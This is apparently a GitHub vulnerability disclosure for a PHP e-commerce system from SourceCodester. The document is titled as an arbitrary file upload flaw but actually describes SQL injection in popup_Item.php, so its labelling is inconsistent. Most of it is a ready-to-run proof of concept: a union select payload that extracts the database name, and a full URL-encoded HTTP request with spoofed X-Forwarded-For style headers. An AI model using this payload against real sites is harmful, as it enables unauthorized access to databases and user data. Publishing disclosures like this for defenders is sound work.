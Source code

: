 # ecommerce-Unauthorized arbitrary file upload vulnerability

## Description

    The ecommerce /ecommerce/popup_Item.php interface has not authorized sql union population.

## source code

    https://www.sourcecodester.com/php/13524/e-commerce-system-using-phpmysqli.html

## Author

    yangfan2@webray.com.cn inc  

## Proof of Concept

1. test

```
1 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,database(),20
```

```
GET /ecommerce/popup_Item.php?id=1%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%31%2c%32%2c%33%2c%34%2c%35%2c%36%2c%37%2c%38%2c%39%2c%31%30%2c%31%31%2c%31%32%2c%31%33%2c%31%34%2c%31%35%2c%31%36%2c%31%37%2c%31%38%2c%64%61%74%61%62%61%73%65%28%29%2c%32%30 HTTP/1.1
Host: 172.20.10.166:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=g4gppk342k4t3gn6dlmav29rr0
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close


```

database

| ![image-20240822163210159](https://raw.githubusercontent.com/0xffaaa/cve/main/ecommerce-Unauthorized%20arbitrary%20file%20upload%20vulnerability.assets/image-20240822163210159.png) |
| ------------------------------------------------------------ |

